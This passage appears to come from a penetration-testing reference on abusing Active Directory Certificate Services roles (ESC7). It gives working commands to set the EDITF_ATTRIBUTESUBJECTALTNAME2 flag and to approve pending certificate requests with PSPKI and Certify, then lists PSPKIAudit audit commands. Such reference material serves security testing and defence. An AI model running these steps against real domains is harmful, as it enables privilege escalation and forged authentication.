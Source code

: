 The "CA Administrator" role allows to set the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag \(see **ESC6**\):

```text
 # Check before setting the flag
Cmd > hostname
DC01
Cmd > certutil.exe -config "CA01.megacorp.local\CA01" -getreg "policy\EditFlags"
​
 # Invoke SetConfigEntry
PS > "$(hostname) : $(whoami)"
WS01 : megacorp\CertAdmin
PSPKI > $configReader = New-Object SysadminsLV.PKI.Dcom.Implementation.CertSrvRegManagerD "CA01.megacorp.local"
PSPKI > $configReader.SetRootNode($true)
PSPKI > $configReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
1114446
PSPKI > $configReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
​
 # Check after setting the flag (EDITF_ATTRIBUTESUBJECTALTNAME2 should appear in the output)
Cmd > hostname
DC01
Cmd > certutil.exe -config "CA01.megacorp.local\CA01" -getreg "policy\EditFlags"
```

The "Certificate Manager" role allows to remotely approve pending certificate requests which can by used by an adversary to subvert the "CA certificate manager approval" protection:

```text
 # Request a certificate that requires manager approval with Certify
PS > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:ApprovalNeeded
...
[*] Request ID : 1337
​
 # Approve a pending request with PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA01.megacorp.local | Get-PendingRequest -RequestID 1337 | Approve-CertificateRequest
​
 # Download the issued certificate with Certify
PS > .\Certify.exe download /ca:CA01.megacorp.local\CA01 /id:1337
```

## Audit <a id="audit"></a>

* ​[https://github.com/GhostPack/PSPKIAudit](https://github.com/GhostPack/PSPKIAudit)

```text
PS > Get-WindowsCapability -Online -Name "Rsat.*" | where Name -match "CertificateServices|ActiveDIrectory" | Add-WindowsCapability -Online
PS > cd PSPKIAudit
PS > Get-ChildItem -Recurse | Unblock-File
PS > Import-Module .\PSPKIAudit.psm1
PS > Invoke-PKIAudit -CAComputerName CA01.megacorp.local
```
